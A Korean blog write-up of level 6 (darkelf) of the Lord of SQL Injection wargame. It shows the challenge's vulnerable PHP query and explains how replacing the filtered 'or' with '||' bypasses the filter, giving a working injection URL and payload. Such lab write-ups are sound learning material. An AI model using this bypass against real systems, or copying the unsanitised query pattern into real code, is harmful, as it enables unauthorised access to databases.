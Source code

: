 ```yaml
---
title: Lord of SQL Injection Write Up No.6 Darkelf
date: 2019-08-17 22:42:40
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 6번 darkelf 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

`or`, `and`를 사용하지 않고 원하는 문자열을 `SELECT` 하도록 SQL을 조작할 수 있는지 확인한다.

### 소스 코드 분석

darkelf 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("darkelf");
  highlight_file(__FILE__);
?>
```

#### Filter

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");
```

- GET 방식으로 `pw`를 받고, `pw`에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.
- 또한, `pw`에 대소문자 구분 없이 `or`, `and` 가 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

#### Query

```php
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("darkelf");
```

- 받은 `pw`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `id`에 `"admin"`이라는 값이 들어있음'이다.

## Solution

1. `||`, `&&` 이용

   논리 연산을 막기 위해 `OR`, `AND`를 필터링 한 문제이다.

   그러나 논리 연산은 위 두 연산자 뿐만 아니라 `||`, `&&` 연산자도 존재한다.

   `OR`은 `||`로 완전히 대체 가능하고, `AND`는 `&&`로 완전히 대체 가능하다.

   이때, URL에 직접 SQL Injection을 수행하는 경우 `&` 문자는 그대로 삽입하면 작동하지 않으므로 URL Encoding을 거친 `%26` 으로 삽입하여야 한다.

   ```url
   http://los.eagle-jump.org/darkelf_6e50323a0bfccc2f3daf4df731651f75.php?pw=' || id='admin'-- -
   ```

   ```sql
   select id from prob_darkelf where id='guest' and pw='' || id='admin'-- -'
   ```

   이는 `$result['id']`에 `'admin'`이 들어가도록 하므로 문제가 풀린다.
